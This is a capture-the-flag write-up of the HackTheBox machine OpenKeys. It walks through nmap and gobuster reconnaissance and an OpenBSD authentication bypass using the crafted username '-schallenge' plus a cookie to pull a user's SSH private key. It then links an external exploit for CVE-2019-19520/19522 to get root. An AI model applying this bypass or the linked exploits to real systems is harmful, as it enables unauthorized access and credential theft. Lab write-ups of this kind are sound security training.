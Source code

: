 ```yaml
---
title: HackTheBox OpenKeys Writeup
published: false
---
```


![logo](https://i.ibb.co/sg3rfZ2/logo.png)

# []()Nmap Scan

> as always, i’ll do nmap scan to find out which services running in this machine.

* 22/tcp --> ssh
* 80/tcp --> OpenBSD httpd

```ruby

# Nmap 7.80 scan initiated Sun Aug  2 00:16:08 2020 as: nmap -sC -sV -oN scan.txt 10.10.10.199
Nmap scan report for 10.10.10.199
Host is up (0.32s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 5e:ff:81:e9:1f:9b:f8:9a:25:df:5d:82:1a:dd:7a:81 (RSA)
|   256 64:7a:5a:52:85:c5:6d:d5:4a:6b:a7:1a:9a:8a:b9:bb (ECDSA)
|_  256 12:35:4b:6e:23:09:dc:ea:00:8c:72:20:c7:50:32:f3 (ED25519)
80/tcp open  http    OpenBSD httpd
|_http-title: Site doesn't have a title (text/html).

```

> **as always i will check the web page first, let's go.**

![web-page](https://i.ibb.co/C00XtWT/webpage.png)

* this is a simple web page with a login form, so first let's do directory listing.

> let's run gobuster with this command: **gobuster dir -u http://10.10.10.199/ -w /usr/share/dirb/wordlists/common.txt**

```ruby

Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.199/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/10 21:56:27 Starting gobuster
===============================================================
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/index.html (Status: 200)
/index.php (Status: 200)
/js (Status: 301)

```

> in the **includes directory** i found a swap file which contain a username.

![](https://i.ibb.co/TgkKdtG/swap-file.png)

* **so now we have username, let's return back to the login page to play with it.**

> **here is the login request.**

![](https://i.ibb.co/cXWyL33/LOGIN-REQUEST.png)

* in this point i tried some injection techniques but i failed, so i searched for OpenBSD Authentication Bypass and i found this [Blog](https://n3x0.com/2019/12/05/severe-auth-bypass-and-priv-esc-vulnerabilities-disclosed-in-openbsd/) and this [Blog](https://www.secpod.com/blog/openbsd-authentication-bypass-and-local-privilege-escalation-vulnerabilities/)

> **so now we know that we will Bypass the Authentication but how? let me explain to you.**

> **if an attacker specifies the username ‘-schallenge’ or ‘-schallenge:passwd’ for force passwd-style auth, it leads to successful authentication bypass.**

> **so let's check.**

![](https://i.ibb.co/6J3xrKx/1.png)

* **let's follow redirection.**

![](https://i.ibb.co/XL4dfM0/2.png)

> **nice error, this error give us hint, we need to specify the username in the cookies to Bypass the auth and reterive his data.**

* **so the request will be like this.**

![](https://i.ibb.co/ZdxMs5x/request-auth.png)

* **nice!**

![](https://i.ibb.co/tZ0Kdnn/rsa-key.png)

> **we got jennifer ssh private key.**

![](https://i.ibb.co/4mjN8Nh/done.png)

> **let's login now.**

# []() Jennifer Login && User Flag

```ruby

╭─xdev05@nic3One ~/Documents/HTB/OpenKeyS  
╰─➤  ssh -i jennifer_rsa jennifer@10.10.10.199 
Last login: Thu Dec 10 19:47:41 2020 from 10.10.14.151
OpenBSD 6.6 (GENERIC) #353: Sat Oct 12 10:45:56 MDT 2019

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

openkeys$ whoami;id;hostname;cat user.txt
jennifer
uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
openkeys.htb
36ab21239a15c537bde90626891d2b10
openkeys$ 


```

* user done!

# []() root@openkeys.htb

> **in the same blogs i found a way to local privilege escalation.**

> in this point we will use CVE-2019-19520 or CVE-2019-19522 to gain **auth group** permissions.

> **follow this [Blog](https://packetstormsecurity.com/files/155572/Qualys-Security-Advisory-OpenBSD-Authentication-Bypass-Privilege-Escalation.html) or Upload this [script](https://raw.githubusercontent.com/bcoles/local-exploits/master/CVE-2019-19520/openbsd-authroot) to the machine and run it.**


```ruby

openkeys# whoami;hostname;cat /root/root.txt 
root
openkeys.htb
f3a553b1697050ae885e7c02dbfc6efa
openkeys# 

```

* **cheers!**

 <script src="https://www.hackthebox.eu/badge/103789"></script>

